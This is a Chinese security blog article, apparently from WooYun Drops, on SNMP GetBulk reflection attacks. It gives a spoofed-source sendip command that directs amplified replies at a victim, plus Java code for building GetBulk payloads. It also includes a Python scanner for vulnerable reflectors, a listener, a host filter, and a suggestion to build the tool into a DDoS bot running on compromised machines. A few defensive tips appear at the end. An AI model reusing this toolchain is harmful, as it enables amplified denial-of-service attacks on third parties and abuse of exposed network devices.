




# 基于 snmp 的反射攻击的理论及其实现

2014/05/28 11:35 | [付弘雪](http://drops.wooyun.org/author/付弘雪 "由 付弘雪 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [运维安全](http://drops.wooyun.org/category/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8 "查看 运维安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 前言

* * *

当时 dns 反射攻击爆发的时候，我就开始研究 snmp 的反射攻击（实际可以达到 20 倍的放大效果），在 2013 年夏天就已经理论研究完成，后来实现工具化。最后还差规模化（武器化）。其实，是国外在 2013 年初，就有只言片语叙述 snmp 的反射攻击，但是没有一篇完整的文章，最近在微博上看到很多朋友转载国外的信息，我觉得，如果再不把自己所研究的放出来刷刷存在感，让我这个 rank9 的人活不下去了。

## 0x01 背景

* * *

罗嗦了这么多，进入正题。

首先反射攻击的基础是向有缺陷的目标发送精心构造的伪造源 ip 地址的 udp 包来实现。第二，需要主机和缺陷主机之间有大小不对等的信息交换。一般满足这两个条件就可以来实现反射攻击。

## 0x02 理论

* * *

Snmp 就不过多介绍了，大家可以百度。Snmp 有 3 个版本，这里攻击最理想的是 2c 版本，而恰恰 2c 版本也是应用最广的。

在 bt5 下可以用 snmpwalk 或 snmpget 命令来和 snmp 主机进行交换数据。

```
Snmpwalk –c public –v2c IP oid 
```

这里 oid 是获取 snmp 具体信息内容的一个标识，snmp 里面存的信息是一个树状的信息结构。



其实 snmpwalk 是获取一条 oid 信息，但是这个 oid 里面附带了下一个树节点的 oid 号，然后 snmp 会通过 snmpget 继续访问下一个 oid 号（在 getnext 字段里面），来执行一个类似于循环的行为，但是 snmpget 的协议大家也看到了，只能获取到一条信息，79 的信息长度，只能获得 279 的反馈，这样实现攻击的放大倍数是不给力的。

关键点来了，根据 rfc1441-rfc1452 文档说明，snmp 第二版里面引入了 getbulk 来取代反复 getnext，用来更好的在单个请求里面获得大量的管理数据。相对应的 bt5 下还有个 snmpbulkget 命令

```
snmpbulkget -v2c -Cn0 -Cr70 -c public IP oid 
```

对应就是获取当前 oid 后面的 70 个团体字，这样如果你用 snmpwalk 跑一个 1.3.6 的团体字会看到很多信息，而你用 bulkget 这个一次就可以收到一个包里面包含 70 条信息的数据包，如图。



这里看到数据包的 length 大家就会明白了，就是利用这种方式，来获得反射攻击的效果。

这里大家会有个疑问。一个 snmp 里面会包含 n 多的信息（上千条肯定有了）为什么这里只用 70 条，用更多的会返回更多的信息，获得更大的倍数。当然我也想，这么做，可是 snmp 这协议不像 ntp 协议直接给你把数据分包返回，而是通过一个包里的不同字段返回多个信息的，所以这里面就会受到网络链路上的 mtu 这个值的影响，1500 这个硬伤是不能越过去的。理论上已经实现了信息不对等的交互了，那么下面就是伪造源 ip 发 udp 包的环节了。

此处我用的是 sendip 这个工具，安装很简单 http://www.earth.li/projectpurple/progs/sendip.html

下载源码之后直接在 linux 下编译安装，这其中可能会遇到编译问题，请参考这里 http://blog.csdn.net/figo1986/article/details/7336131

下面看下我用的命令

```
sendip -v -p ipv4 -is src_IP -id dst_IP -p udp -us 8000 -ud 161 dst_IP  -d0x123456789 
```

这里是使用 ipv4 的协议发送 udp 包，src_IP 源 ip， dst_ip 目的 ip，-us udp 源端口,-ud udp 目的端口，这里 snmp 默认端口是 161，源端口自己随便填，最后部分是数据部分，其实可以直接输入明文的，但是 snmp 的 pdu 编码是非常蛋疼的，所以我使用了-d 16 进制的形式。

下面是效果，这个包就发到本地吧，这里的源地址就是 ddos 的反射攻击的被攻击者的地址。



这里看到了效果，为下一步工具化进行了铺垫

最后这个图是虚拟机环境搭的，实现反射攻击的整体图



## 0x03 工具化

* * *

首先要解决 snmp 数据包 pdu 部分的蛋疼的编码部分，snmp 的数据部分是符合基本编码规则（ber）的这里有三篇文章，大家可以完全读懂 ber 编码和 snmp 的关系。

http://blog.csdn.net/shanzhizi/article/details/11574849
http://yuanmuqiuyu2000.blog.sohu.com/72641116.html

http://blog.chinaunix.net/uid-23069658-id-3251045.html

对于这个蛋疼的编码，我写了个 java 程序来生成 pdu，里面有注释，大家很好理解的。

```
import java.io.UnsupportedEncodingException;

public class SnmpPDUber {
    public static String sumlen(String s){
        int c=0;
        String r="";
        String r2="";
        s=qukongge(s);
        s=s.replaceAll(" ","+");
        r=s.replaceAll("\\+","");
        //System.out.println(s);
        c=r.length()/2;
        r2=Integer.toHexString(c);             //十进制转换成 16 进制返回
        return subStr(r2);
    }

    public static String randomtohex(int i) //产生 i 组 16 进制 随机数
    {
        String s="";
        int k;
        for(int j=0;j<i;j++){
        k=(int)(1+Math.random()*(254-1+1));
            s=s+Integer.toHexString(k)+" ";
        }
        return s;
    }

    public static String subStr(String s)         // (双位) 0 变成 00
    {
        if(s.length()%2==1){
            s="0"+s;
        }
        return s;

    }
    public static String qukongge(String s){return s.replaceAll(" ","");} //去除空格

    public static String toHexString(String s)
    {
        String str="";
        for (int i=0;i<s.length();i++)
        {
            int ch = (int)s.charAt(i);
            String s4 = Integer.toHexString(ch);
            str = str +" "+ s4;
        }
        return str;
    }
    public static void main(String args[]){
        // tag+len+values
        String tag="30";//tag 标识域 SEQUENCE 类型
        String len="00";
        String values="";//values 值域

        String versiontag="02";//version tag 标识域 INTEGER 类型
        String versionlen="01";
        String versionvalues="01";//version values 00 1 版本     01 2c 版本

        String Communitytag="04";//Community tag 标识域 string 类型
        String Communitylen="00";//Community len 长度域
        String Communityvalues=args[0];//Community 值域 public
        System.out.println(Communityvalues);
        Communityvalues=toHexString(Communityvalues);
        System.out.println(Communityvalues);

        String pdutag="a5";//pdu tag 标识域 a5 是 getbulkrequest
        String pdulen="00";//pdu len 长度域
        String pduvalue="";//pdu 值域

        String requestid_tag="02";//requestid tag 标识域 INTEGER 类型
        String requestid_len="04";//requestid len 长度域
        String requestid_values="";//8 位 16 进制 随机   ID

        String non_repeaters_tag="02";// getbulk 开始段 标识域
        String non_repeaters_len="01";
        String non_repeaters_values="00";//16 进制 0

        String max_repeaters_tag="02";// getbulk 循环段 标识域
        String max_repeaters_len="01";
        String max_repeaters_values="64";// 16 进制 100

        String Variable_tag="30";
        String Variable_len="00";
        String Variable_value="";

        String Item_tag="30";
        String Item_len="00";
        String Item_values="";

        String Object_tag="06";
        String Object_len="00";
        String Object_values="2b 06 01 02 01";//1.3.6.1.2.1

        String value_tag="05";//no error 标识域
        String value_len="00";

        /*
        tag+len+[versiontag+versionlen+versionvalues+Communitytag+Communitylen+Communityvalues+pdutag+pdulen+[requestid_tag+requestid_len+requestid_values+non_repeaters_tag+non_repeaters_len+
        non_repeaters_values+max_repeaters_tag+max_repeaters_len+max_repeaters_values+Variable_tag+Variable_len+[Item_tag+Item_len+[Object_tag+Object_len+Object_values+value_tag+value_len]]]]
        */
        String tmp="";
        int j=0;
        tmp=value_tag+" "+value_len;
        Object_len=sumlen(Object_values);
        Item_values=Object_tag+" "+Object_len+" "+Object_values+" "+tmp;
        Item_len=sumlen(Item_values);
        Variable_value=Item_tag+" "+Item_len+" "+Item_values;
        Variable_len=sumlen(Variable_value);
        tmp=Variable_tag+" "+Variable_len+" "+Variable_value;
        requestid_values=randomtohex(4); //报文随机 id 后面自带空格，所以下面字符串拼接时候不需要带空格
        pduvalue=requestid_tag+" "+requestid_len+" "+requestid_values+non_repeaters_tag+" "+non_repeaters_len+" "+non_repeaters_values+" "+max_repeaters_tag+" "+max_repeaters_len+" "+max_repeaters_values+" "+tmp;
        pdulen=sumlen(pduvalue);
        tmp=pdutag+" "+pdulen+" "+pduvalue;
        Communitylen=sumlen(Communityvalues);
        values=versiontag+" "+versionlen+" "+versionvalues+" "+Communitytag+" "+Communitylen+" "+Communityvalues+" "+tmp;
        len=sumlen(values);
        tmp=tag+" "+len+" "+values;
        System.out.println(tmp);
        System.out.println("0x"+qukongge(tmp));
        /*sendip -v -p ipv4 -is 192.168.1.101 -id 192.168.1.102 -p udp -us 8000 -ud 161 192.168.1.102 -d0x302602010104067075626c6963a519020440d32d10020100020164300b300906052b060102010500*/

    }
}

```

注意：getbulk 的循环字段就是对应 snmpbulkget 里面的 –Cr 标识位。

第二为了有一定数量的能进行反射的主机，需要一个给力的扫描器，这里会有人想到用 zmap 来扫描，但是要知道， udp 的扫描可不像 tcp 那种你发请求连接就肯定会有返回连接的，实测有很多 udp 程序只要你发的数据不符合他接收的格式时，他是无任何反应和回复的，就和这个 ip 没开相关端口是一样的效果，snmp 也是符合这种情况的，所以需要自己在扫描指定 ip 的时候发送和正常 snmp 请求的包一样的数据包，来期盼正常的返回，来证明这个 ip 是否可以用来反射攻击。不知道大家住没注意到 zmap 是在不久之前才推出了 snmp 的扫描模块，这个模块我用过，不是太给力。下面是我用 python 写的一个循环调用 sendip 发包的程序，来扫描 ip 段的，里面的 pdu 是用刚才 java 编码程序生成出来的。发出的包用一个自写的 java 程序监听端口，如果有返回信息，就把返回的 ip 地址输出到文件。

python 3.4 版本的

```
import os
import time
from pip.backwardcompat import raw_input

__author__ = 'qwe'

class ipScan(object):
    def __init__(self, begin, end):
        self.begin = begin
        self.end = end

    def traverseIP(self):
        begin_ip = []
        end_ip = []
        begin = self.begin.split(".")
        end = self.end.split(".")

        #print(begin,end)

        for m in begin:
            begin_ip.append(int(m))
        for n in end:
            end_ip.append(int(n))

        a1 = begin_ip[1]
        b1 = end_ip[1]
        a2 = begin_ip[2]
        b2 = end_ip[2]
        a3 = begin_ip[3]
        b3 = end_ip[3]

        print(a1,b1,a2,b2,a3,b3)

        for o in range(a1,b1+1):
            p=1
            q=1
            if(o==a1):
                p=a2
            else:
                p=1
            if(o==b1):
                q=b2
            else:
                q=254
            for m in range(a2, b2 + 1):
                i = 1
                j = 1
                if (m == a2 ):
                    i = a3
                else:
                    i = 1
                if (m == b2):
                    j = b3
                else:
                    j = 254
                for n in range(i, j + 1):
                    ipstr=(str(begin_ip[0]) + "." + str(o) + "." + str(m) + "." + str(n))
                    sendip='sendip -p ipv4 -is 192.168.0.108 -id '+ipstr+' -p udp -us 8450 -ud 161 '+ipstr+' -d0x302902010104067075626c6963a01c020461270b1b020100020100300e300c06082b060102010101000500'
                    print(sendip)
                    os.system(sendip)
                    time.sleep(0.1)

begin = raw_input("enter begin ip addr: ")
end = raw_input("enter end ip addr: ")
#print (begin,end)

a = ipScan(begin, end)
a.traverseIP()

```

java 监听程序

```
/**
 * Created with IntelliJ IDEA.
 * User: Clevo
 * Date: 14-3-11
 * Time: 下午 10:09
 * To change this template use File | Settings | File Templates.
 */

import org.bouncycastle.asn1.ASN1InputStream;
import org.bouncycastle.asn1.ASN1Primitive;
import org.bouncycastle.asn1.util.ASN1Dump;

import java.io.ByteArrayInputStream;
import java.io.FileWriter;
import java.io.IOException;
import java.net.*;

public class udpListen {

    public static void main(String[] args) {

            printReceiveInfomationFromPort(8000);

    }

    static void printReceiveInfomationFromPort(int port) {
        new Thread(new MonitorPortRunnable(port)).start();
    }

}

class MonitorPortRunnable implements Runnable {
    byte buf[] = new byte[1024];
    DatagramSocket ds = null;
    DatagramPacket dp = null;
    int localReceivePort ;
    public MonitorPortRunnable(int localReceivePort) {
        this.localReceivePort = localReceivePort;
    }
    public static void writefile2(String fileName, String content) {
        try {
            // 打开一个写文件器，构造函数中的第二个参数 true 表示以追加形式写文件
            FileWriter writer = new FileWriter(fileName, true);
            writer.write(content);
            writer.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public void run() {
        dp = new DatagramPacket(buf, 0, 1024);
        try {
            ds = new DatagramSocket(localReceivePort);

        } catch (SocketException e1) {
            //prompt("本地接收端口已被使用");
            System.exit(0);
        }
        while (true) {
            try {
                ds.receive(dp);
                //System.out.println("信息来自：" + this.localReceivePort);
            } catch (IOException e) {
                ds.close();
                e.printStackTrace();
            }
            byte[] c=dp.getData();
            int c_len=dp.getLength();
            String receiveMessage = new String(c, 0, c_len);
            String receiveAddr=new String(dp.getAddress().toString());
            //System.out.println(receiveMessage);//暂时打印到控制台，一般输出到文件
            System.out.println(receiveAddr);
            writefile2("result.txt",receiveAddr+"\r\n");
        }
    }

}

```


最后还有一个 java 写的结果过滤，其实就是一个 snmp 的信息获取程序，来筛选可利用的主机或者设备，大家可以增加更多的功能，例如看出口的速度等。

```
import java.io.*;
import java.util.Vector;

import org.snmp4j.CommunityTarget;
import org.snmp4j.PDU;
import org.snmp4j.Snmp;
import org.snmp4j.event.ResponseEvent;
import org.snmp4j.mp.SnmpConstants;
import org.snmp4j.smi.OID;
import org.snmp4j.smi.OctetString;
import org.snmp4j.smi.UdpAddress;
import org.snmp4j.smi.VariableBinding;
import org.snmp4j.transport.DefaultUdpTransportMapping;

public class SnmpDATAget {
    public static void main(String[] args) throws IOException, InterruptedException {
        Snmp snmp = new Snmp(new DefaultUdpTransportMapping());
        snmp.listen();

        //args[0]="public";
        //args[1]="ip.txt";
        //args[2]="oid.txt";

        CommunityTarget target = new CommunityTarget();
        target.setCommunity(new OctetString(args[0]));
        target.setVersion(SnmpConstants.version2c);
        target.setTimeout(3000);    //3s
        target.setRetries(1);     //重试次数

        try {
            //String encoding="GBK";
            String encoding="UTF-8";
            File file=new File(args[1]);
            if(file.isFile() && file.exists()){ //判断文件是否存在
                InputStreamReader read = new InputStreamReader(
                        new FileInputStream(file),encoding);//考虑到编码格式
                BufferedReader bufferedReader = new BufferedReader(read);
                String lineTxt = null;
                while((lineTxt = bufferedReader.readLine()) != null){
                    System.out.print(lineTxt + "@");
                    target.setAddress(new UdpAddress(lineTxt+"/161"));
                    sendRequest(snmp, createGetPdu(args[2]), target);

                }
                read.close();
            }else{
                System.out.println("找不到指定的文件");
            }
        } catch (Exception e) {
            System.out.println("读取文件内容出错");
            e.printStackTrace();
        }

    }

    private static PDU createGetPdu(String path) {
        PDU pdu = new PDU();
        pdu.setType(PDU.GET);
        try {
            //String encoding="GBK";
            String encoding="UTF-8";
            File file=new File(path);
            if(file.isFile() && file.exists()){ //判断文件是否存在
                InputStreamReader read = new InputStreamReader(
                        new FileInputStream(file),encoding);//考虑到编码格式
                BufferedReader bufferedReader = new BufferedReader(read);
                String lineTxt = null;
                while((lineTxt = bufferedReader.readLine()) != null){
                    pdu.add(new VariableBinding(new OID(lineTxt))); //sysName
                    //System.out.println(lineTxt);
                }
                read.close();
            }else{
                System.out.println("找不到指定的文件"+path);
            }
        } catch (Exception e) {
            System.out.println("读取文件内容出错");
            e.printStackTrace();
        }
        /*
        pdu.add(new VariableBinding(new OID("1.3.6.1.2.1.1.1.0")));
        pdu.add(new VariableBinding(new OID("1.3.6.1.2.1.1.2.0")));
        pdu.add(new VariableBinding(new OID("1.3.6.1.2.1.1.3.0")));
         */
        return pdu;
    }

    private static void sendRequest(Snmp snmp, PDU pdu, CommunityTarget target)
            throws IOException {
        ResponseEvent responseEvent = snmp.send(pdu, target);
        PDU response = responseEvent.getResponse();

        if (response == null) {
            System.out.println("TimeOut...");
        } else {
            if (response.getErrorStatus() == PDU.noError) {
                Vector<? extends VariableBinding> vbs = response.getVariableBindings();
                for (VariableBinding vb : vbs) {
                    System.out.println(vb + " ," + vb.getVariable().getSyntaxString());
                }
            } else {
                System.out.println("Error:" + response.getErrorStatusText());
            }
        }
    }

}

```

## 0x04 武器化

* * *

这里面 sendip 可以作为一个模块集成到 linux 下面的 ddos 马里面。

好吧让大家失望了，从上面的各种杂牌程序大家不难看出，我是一个不会写程序的人，所以 ddos 的马部分默默地忽略掉吧，如果有大神会写，我们可以共同研究。

## 0x05 局限性，防御办法和解决办法

* * *

第一，需要发包的肉鸡是属于纯外网 ip 地址，因为一般经过路由或者特殊设置（例如设置：忽略从 lan 口来的源 ip 地址不属于本子网的数据包）的三层交换时，此伪造包就会被过滤掉，从而失去效果。解决办法就是找那种可以发伪造包的肉鸡，其实还是很多的，简单点说 nat 形式为 0 的，基本都能发。这种肉鸡国外还是不少的。

第二，是混世魔王给我提出来的，能进行反射的主机的数量。这个还是很多的，因为不光有些有需要的 linux 开 snmp，其实 linux 开 snmp 的基本都是内网的机器，用来进行性能监控用，更多的是网络上的设备，交换，路由，防火墙等，这些设备从小到大都会有开 snmp 的，他们所属的带宽大小也会有所不同，百兆千兆甚至万兆以太网口的设备都是会出现的。所以这方面能反射的主机数量不用担心。在上面工具化里面的扫描工具实践一下就可以看出来。

第三，防御办法，开 snmp 的主机尽量不要暴露在外网，还可以用改 默认密码来限制访问，或者改默认 161 端口。或者禁止响应 bulkget 的这种包，仅仅响应 get 方式获取

欢迎各位朋友来指正问题。

版权声明：未经授权禁止转载 [付弘雪](http://drops.wooyun.org/author/付弘雪 "由 付弘雪 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Powershell and Windows RAW SOCKET](http://drops.wooyun.org/tips/4707)
*   [逆向基础（六）](http://drops.wooyun.org/tips/2177)
*   [Spring 框架问题分析](http://drops.wooyun.org/tips/2892)
*   [J2EE MVC 模式框架中,表单数据绑定功能不安全实现在 Tomcat 下造成的 DoS 及 RCE](http://drops.wooyun.org/papers/1395)
*   [OGNL 设计及使用不当造成的远程代码执行漏洞](http://drops.wooyun.org/papers/340)
*   [攻击 JavaWeb 应用[3]-SQL 注入[1]](http://drops.wooyun.org/tips/236)